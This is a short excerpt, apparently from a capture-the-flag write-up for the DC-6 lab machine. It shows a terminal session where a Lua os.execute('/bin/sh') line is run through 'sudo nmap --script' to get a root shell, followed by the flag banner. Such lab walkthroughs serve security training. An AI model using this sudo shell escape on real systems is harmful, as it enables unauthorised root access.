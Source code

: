 ```
jens@dc-6:~$ TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:~$ sudo /usr/bin/nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2020-09-01 21:26 AEST
NSE: Warning: Loading '/tmp/tmp.SOPgLECyvv' -- the recommended file extension is '.nse'.
#bash
root@dc-6:~# 
```

# The flag

```
root@dc-6:~# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
